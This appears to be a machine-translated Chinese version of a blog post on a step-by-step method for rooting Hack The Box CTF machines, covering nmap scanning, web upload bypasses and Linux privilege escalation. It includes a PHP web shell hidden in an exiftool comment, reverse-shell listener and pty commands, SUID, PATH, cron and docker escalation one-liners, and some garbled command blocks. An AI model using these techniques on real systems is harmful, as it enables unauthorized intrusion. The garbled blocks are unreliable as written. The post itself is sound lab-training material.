





# 扎根 25+黑盒子机器后学到的东西！

> 原文：<https://infosecwriteups.com/things-i-learned-after-rooting-25-hack-the-box-machines-e9eada4ea6ca?source=collection_archive---------0----------------------->



我的 Kali 桌面

## 黑，睡，重复。

随着新冠肺炎疫情一直在世界各地进行，我需要首先声明，让自己有足够的动力去做任何事情都是极其困难的。如果你不能富有成效，或者如果你没有用你所拥有的时间做任何令人惊奇的事情，请不要对自己太苛刻。从我们自己的角度来看，这对我们所有人来说都是艰难的，只要躺下来完成我们的基本需求就完全没问题。日复一日地听令人沮丧的消息确实会造成伤害。我很庆幸自己是没有被新冠肺炎感染的幸运儿之一。我希望外面的每一个人在我们面对的这个疫情中尽他们最大的努力。我们需要在最后变得更强大。

好吧，让我们回到手头的主题，有了这些时间，我开始致力于提高我的渗透测试技能，因为我的工作角色主要需要蓝色团队的活动，所以我无法在这方面工作。我认为我可以开始的最好方法是黑掉 hack the box 网站上的机器。这将帮助我恢复和发展我的红队技能。


# 让我们开始吧！

为了不浪费太多时间，我买了 VIP 版的 hack the box，这样每当我被困在一个盒子里时，我都可以得到指导，继续前进，而不是花太多时间。我这样做是为了以更快的速度完成我的基础知识，但如果你是初学者，我会说最好不要任何帮助就能破解盒子。慢慢来，让你的思想四处游荡，想出可能帮助你解决盒子的主意。这样你将学到最多的东西，并发展你作为一名黑客的思维过程。

作为一名黑客和一名狂热的程序员(几年前我曾做过竞争性的编码)，我试图提出一种结构，可以帮助你瞬间解决大多数黑客机器或任何其他 CTF 问题。计划是创建一个路线图，这样你所要做的就是遵循这些步骤。

1.  扫描机器
2.  最初的立足点
3.  获取用户级权限
4.  权限提升

根据我的经验，在 hack the box 平台上完成任何机器都需要遵循这四个步骤。因此，让我们开始深入研究每一个问题。



黑掉盒子——仪表板

## 步骤 1:扫描机器

扫描机器是您需要执行的最简单或者至少是最直接的步骤。我们用来进行网络扫描的工具是“nmap”。这是网络扫描和找出机器上打开的端口的最佳工具之一。这是继续进入系统所需的最重要的信息。



Nmap 扫描输出

在大多数情况下，下面的命令应该足够了。

```
$ nmap -sC -sV -Pn <target-ip>
```

如果上述命令花费大量时间给出结果，那么在您试图攻击的给定机器上有可能会打开大量端口。在这种情况下，您应该首先使用该命令。

```
$ nmap -p1-65535 <target-ip>
```

注:如果它仍然不工作，检查您的 VPN 连接和机器是否打开。相信我，我犯这个错误的次数比我愿意承认的次数还要多。

上面的命令将快速给出系统上打开的端口列表。一旦您有了一组端口，在目标机器上打开，然后您可以输入以下命令来获得对目标机器的更详细的 nmap 扫描。

```
$ nmap -p<port-num-1>,<port-num-2> -A <target-ip>
```

在一些框中，您会注意到，如果您对相应框的域名运行 nmap，将会得到不同的结果。因此，最好也这样做。如果您使用 linux 机器来执行攻击，那么您可以转到“/etc/hosts”文件并附加以下内容。

```
machine.htb      <target-ip>
```

添加以下内容后，您就可以继续对“machine.htb”域名运行 nmap 扫描了。

```
$ nmap -sC -sV -Pn <target-domain> 
```

一旦您获得了开放端口的详细信息，接下来就是获取机器访问权限的下一步。

## 第二步:最初的立足点

这可能是一些盒子中最难的部分，也绝对是最令人恼火的。如果你不知道该做什么或进行哪些攻击，你肯定会很快失去动力。

这里的技巧是根据机器上打开的端口类型准备好一些攻击。

**1。端口 80 ( HTTP ) & 443 ( HTTPS )**

例如，当机器上只打开了端口 80 或 443 时，这清楚地表明，在接下来的几个步骤中，您应该尝试您的 web 渗透攻击媒介和工具。

我要做的第一件事是运行“dirb”目录搜索，如果机器正在加载，则使用“wfuzz”运行模糊攻击。浏览网站，找出网站上的功能。在源代码中寻找提示，也许会给你一些启示，有时可能会有一些东西没有在网页上打印出来，所以要小心。

**2。端口 135 ( MSRPC)，139 ( NetBios-SSN ) & 445(微软-DS )**

很高兴看到这些端口在 windows 机器上打开。很有可能你手上有一个永恒之蓝或者其他类似的攻击。启动您的 msfconsole 并搜索这些漏洞。如果漏洞利用成功，您有可能最终获得机器的根用户权限。

**3。端口 21 ( FTP )**

FTP 端口攻击通常会导致两种情况，我曾经遇到过。

I)在有些攻击中，您可以作为匿名用户登录，并四处寻找线索或提示。有时匿名登录可能是不允许的，你可能必须首先通过一些网络侦察或其他方法获得凭证，然后你可以登录以获得提示。

ii)第二种类型的攻击是，如果您可以匿名访问网页所在的文件夹。然后，您可以在该文件夹中托管自己的恶意文件，然后通过浏览器访问它，可能会触发反向外壳，然后继续获取进一步的访问权限。

**4。端口 22 ( SSH )**

只要你有 SSH 访问权限，你就几乎没有机会进行盲目的暴力攻击。我个人从未遇到过这种情况，但有时你会有一个单词列表，并使用它在 ssh 端口上运行字典攻击来获取访问权限。你可能需要自己制作单词表，最好的方法是使用“cewl”工具来获取单词表中的单词。

**5。港口 389 & 636 ( LDAPS )**

很少有专栏关注利用活动目录漏洞进行的漏洞攻击。你必须关注这些攻击，找出破解这些盒子的方法。这篇[文章](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)尤其帮了我大忙，解决了这样的箱子。

这些是你在黑客挑战中会遇到的一些最常见的端口。我还遇到了其他特定的端口，但我不会提及这些端口，因为它们是特定于机器的。

下一步，在检查机器上可能打开的所有端口后，我们试图找出一种方法来找到哪些服务实际上在使用这些端口。

大多数时候，在这些端口上运行的服务可能容易受到攻击。好的一面是，运行详细的 nmap 扫描可以获得可能需要破解的信息。

例如，托管的 Apache 服务器或 IIS 服务器可能存在一些漏洞。可能部署的日志软件包容易受到目录遍历攻击。有时，托管的软件登录页面很容易受到暴力攻击。有一个盒子，已经被另一个黑客攻击了，他给你留了一个后门，现在你不得不使用这个后门进入这台机器。

> **关键是要将注意力集中在开放的端口、运行在这些开放端口上的服务以及这些服务的版本上。**

## 步骤 3:获取用户级权限

一旦我们扫描了机器并检查了所有打开的端口和机器上运行的服务，下一步就是利用这些运行的服务。



searchsploit -普通搜索

我首先运行的检查特定软件是否有漏洞的工具是 [searchsploit](https://www.exploit-db.com/searchsploit) 。保持漏洞列表更新，并搜索机器上运行的服务的漏洞。

```
$ searchsploit <service-name>$ searchsploit <service-name> <service-version>
```

使用如上所示的“searchsploit”工具进行普通搜索可以给出与该服务相关的漏洞或潜在利用的列表。然后，你可以看看这些利用，然后尝试执行它们。很少有需要上传到目标机器上的 python 或 bash 脚本。有时它可能是一种描述如何实施攻击的方法，如目录遍历、api 漏洞等。

大多数时候，当你攻击一个没有 CVE 的盒子时，很有可能当你运行 searchsploit 时，什么也不会弹出来。因为没有直接的漏洞或利用，你可以利用它来利用机器。

对我们来说幸运的是，它本身就给了我们一个线索，告诉我们应该如何处理这个盒子。一旦 CVE 出局，打开你的打嗝套件，开始拦截每一个从目标机器来回发出的数据包。如果它在端口 80/443 上运行，或者在某个随机端口上有 web 接口托管的服务。浏览他们，寻找他们的登录面板，创建一个帐户面板等。

回到你在机器上通过 fuzzing 和运行 dirb 找到的输出，看看你是否利用了它们。一个盒子上托管了一个服务，我必须通读 API 调用和该服务的特性才能破解这个盒子。因此，你可能还需要阅读大量关于托管服务的内容，了解它们的功能以及它们的主要用途。

在大多数情况下，您会找到一种方法来上传文件或运行一个命令，这将触发一个反向 shell 连接到您的系统。因此，有三个最重要的建议，你将需要执行这一点。

你应该准备好一系列不同编程语言的脚本，这些脚本可以帮助你将反向外壳生成回你的系统。我经常看到 php 反向外壳脚本是使用最多的脚本之一，因为大多数情况下，你会将这些脚本上传到 web 服务器上，并依赖该服务器来执行你的脚本。你必须学会使用“msfvenom”来创建你想要上传的格式的脚本。这里有一个[链接](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)到 msfvenom 备忘单。

你也可以使用最好的工具之一，即 [pentestmonkey 网站](http://pentestmonkey.net/category/cheat-sheet)上提供的准备执行的脚本。这些真的很有帮助，我已经把它们做了书签，记录了我访问这个网站寻求帮助的频率。

**ii)绕过上传检查**
既然我们在谈论文件上传，你需要学习如何操作系统的不同方法，并且能够上传你想要的文件。在上传部分有检查，他们可能使用 HTTP 头参数中的 MIME 类型信息来检查文件的类型。

```
MIME Type: image/jpeg, image/png, text/html
```

有时，您可能必须将 png 或 jpeg 文件的前一百行附加到 php 反向 shell 有效负载，以便将其签名从 php 文件更改为 png 文件。

```
$ head -n100 image.png > payload.png$ msfvenom_payload.php >> payload.png
```

然后，您可以上传 payload.png，它很可能会绕过验证过程。我最近了解到，我们也可以使用“exiftool”来附加一个注释，从而绕过验证。

```
$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' payload.png
```

看看这篇[文章](https://xapax.gitbooks.io/security/content/bypass_image_upload.html)，它也会帮助你。另一种大多数情况下可能会失败的方法是更改文件名。如果允许 png 格式的文件，但不允许 php 文件，那么只需将名称从 file.png 改为 file.php。这可能会阻碍进攻，所以你必须把这些都记在心里。

**iii) Netcat**

成功上传有效负载后，您的机器上需要一个监听器来帮助您建立与目标机器的连接。

```
$ nc -lvnp <port-number>
```

这个简单的命令将帮助您在您的机器上建立一个监听器。因此，一旦你上传的有效负载被触发，它将启动你的机器和目标机器之间的反向外壳连接。

有效负载可以通过运行在目标机器上的 cronjob 来触发，访问承载有效负载的 URL 或其他方式，但只要它被触发，您就会获得与目标机器的卓越连接。

要记住的一点是，大多数情况下，当你得到一个反向外壳时，它不是一个合适的交互式反向外壳，你必须运行命令来使它如此。下面是其中的几个和链接到网页的链接。



我用过最多的是下面这个。大多数黑客机器上都安装了 python，主要是 python3。

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

这将是罕见的，但如果他们中的一些人没有安装 python，那么你可以寻找其他替代方案，或者只使用你现有的。

一旦您有了对目标机器的反向 shell 访问，现在您所要做的就是导航到正确的文件夹并访问用户标志，这种可能性是 90%。在剩下的 10%中，您可能需要考虑一下将您的权限从一个用户提升到另一个用户，但是这种权限提升非常简单，不需要太多的努力。我们将在下一步讨论权限提升方法。

## 步骤 4:权限提升

现在进入了黑盒子场景中最令人生畏的部分。我个人曾经觉得这一步是整个过程中最困难的部分，但后来我经历了下面的[备忘单](https://www.hackingarticles.in/privilege-escalation-cheatsheet-vulnhub/)，它让事情变得如此简单。

这些是您需要遵循的十三个步骤，以便对您试图侵入的几乎任何机器实施成功的权限提升攻击。

**I)**[滥用 Sudo 权限](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)
大多数情况下，当你获得机器上用户的访问权限时，他不是管理员，而是机器上的普通用户。有时，我们访问的用户倾向于拥有 sudo 特权，但只针对某些命令或服务。我们首先通过执行以下命令来检查这一点。

```
$ sudo -l 
```

根据输出，我们可以确定我们有权访问的用户，是否允许作为特权用户执行某些命令或服务。

**ii)** [**SUID 位**](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
SUID 位用于定义你作为用户是否有权限执行某个文件。那些拥有 suid 权限的文件以更高的特权运行。运行此命令列出所有具有 SUID 权限的二进制文件。

```
$ find / -perm -u=s -type f 2>/dev/null
```

然后，我们必须创造性地使用列出的对我们有利的二进制文件来增强我们的特权，这可以通过查看包含机密信息的文件或将高特权文件复制到我们有权访问的文件夹中来实现。

**iii)内核漏洞利用** 这是一种利用目标机器上存在的内核缺陷的攻击。根据内核的版本，您可以在线搜索漏洞，然后使用该漏洞获得管理员级别的权限。检查目标机器内核版本的命令。

```
$ uname -a
```

这是一种可以在 Windows 和 Linux 机器上执行的攻击。

**iv)** [**路径变量**](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)
我倾向于不喜欢路径变量攻击，这是我做噩梦的原因，因为我不得不设置路径变量来正确配置 Windows 机器中的软件。path 变量指定保存可执行程序的 bin 和 sbin 目录。每当我们执行一个程序时，它会搜索路径变量来找到那个程序，所以如果我们改变路径变量中的路径，我们可以让目标机器以 sudo 权限运行我们自己的可执行文件。

```
$ echo $PATH$ export PATH=/tmp:$PATH
```

代替/tmp，我们可以附加任何我们想要的路径，/tmp 是最受欢迎的，因为作为一个普通用户，我们可以访问特定的目录，并可以在那里创建我们的恶意可执行文件。

这种权限提升的方法可能有点累，因为您必须浏览文件系统、文件夹和文件，以找到一些可以帮助您提升权限的有趣信息。浏览 bash 历史，配置文件，随机文本文件等等。寻找提升你特权的线索。

**vi) MySQL** 下面的例子显示了我们如何执行某些 mysql 命令来改变“find”可执行文件的权限。

```
mysql> mysql -u root -p
mysql> SELECT sys_exec('chmod u+s /usr/bin/find');
mysql> echo os.system('/bin/bash')
mysql> quit
```

一旦我们改变了权限，我们就可以利用它来获得特权访问。

```
$ cd /tmp
$ touch temp_file
$ find temp_file -exec "/bin/sh" \;
```

**VII)**[**Crontab**](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)Cron 作业是保持在机器上运行的后台进程。大多数情况下，这些进程或作业是由管理员执行的，因此它们很有可能被用来执行权限提升攻击。我们所需要做的就是操纵 cronjob 正在执行的进程或服务，使之对我们有利，从而获得管理员权限。

大多数情况下，我们会对 cron 作业正在执行或修改的文件进行更改，并将我们的恶意负载添加到该文件中。

**viii)** [**通配符注入**](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
这种攻击大多是未知的，还没有在任何黑客机器中使用过。通配符注入是一种提升权限的方法，因为它是在执行任何其他操作之前由 shell 解释的，我们可以通过在命令中包含星号(*)来运行命令。

这不是别的，而是一个文件或目录可能拥有的额外特权。然后，我们可以利用该特定文件或目录来提升我们的特权。

```
$ getcap -r / 2>/dev/null
```

我们运行下面的命令来查看我们可以执行的二进制文件，并使用它们来以更高的权限修改文件或文件夹，并访问其中的内容。一种方法是将高特权文件压缩到用户可以访问的目录中，然后在那里提取出来，该文件的特权现在会降低，普通用户也可以读取，从而提升我们的特权。

**x)可写 etc/passwd 文件**
这是一个简单的解决方案，您需要检查您是否拥有/etc/passwd 文件的写权限。所有密码和用户名及其详细信息都保存在该文件中。如果我们可以将自己的恶意有效负载写入该文件，那么我们可以创建一个全新的不同用户，该用户没有密码或我们知道的密码，并且该用户可以访问所有内容，因此我们可以获得 root 权限。

**xi)作为根用户的可写文件或脚本**
这是提升您权限的另一个直接解决方案。如果您可以编写一个脚本并以 root 用户身份运行它，或者编辑一个具有更高权限的文件并以 root 用户身份执行它，那么这是增强您在机器上的权限的最简单的方法之一。很难找到这样一个可以轻易利用的机会。

**xii)缓冲区溢出**
当我们在特定内存段中插入的字符串数量大于它要容纳的字符串数量时，就会发生缓冲区溢出，从而导致溢出。这导致了漏洞，已经存储的数据可能会被损坏、覆盖，但更糟糕的情况是，它可能被用来从机密或更高权限的文件中提取值，甚至允许我们执行恶意命令。

Docker 是作为我们一直使用的虚拟机的竞争对手而推出的。docker 的固有问题是每个 Docker 命令都需要用 sudo 运行，即在特权模式下运行。这导致了这样一个问题，即如果用户有权访问守护程序，它会为用户提供增强其权限的方法。因此，属于 docker 组的任何人都可以访问根用户可以访问的所有内容。

```
$ docker run -v /root:/hack -t debian:jessie /bin/sh -c 'cat /root/root.txt'
```

上面的命令允许用户以特权用户的身份运行命令，即使该用户没有 sudo 权限。

# 结论

我在这篇文章中讨论的一切足以解决 hack the box challenge 或其他 CTF 上的大多数问题。作为一名程序员，我想把 CTFs 的整个体验分解成有意义的、每个人都能理解的步骤。许多人在开始时认为这些只是攻击者偶然发现的随机步骤，但是如果你从鸟瞰的角度来看整个过程，你会开始理解所有这些背后有一个实际的科学，可以帮助你更快地解决这些挑战。

附注:我没有校对过整篇文章，所以如果你在文章中遇到任何错误，请联系我。

如果你喜欢，请鼓掌让我们合作。获取、设置、破解！

**网站**:[aditya12anand.com](https://www.aditya12anand.com/)|**捐款**:[paypal.me/aditya12anand](https://paypal.me/aditya12anand)
**电报**:[https://t.me/aditya12anand](https://t.me/aditya12anand)
**推特**:[twitter.com/aditya12anand](https://twitter.com/aditya12anand?source=post_page---------------------------)
**LinkedIn**:[linkedin.com/in/aditya12anand/](https://www.linkedin.com/in/aditya12anand/?source=post_page---------------------------)
**电子邮箱**:aditya12anand@protonmail.com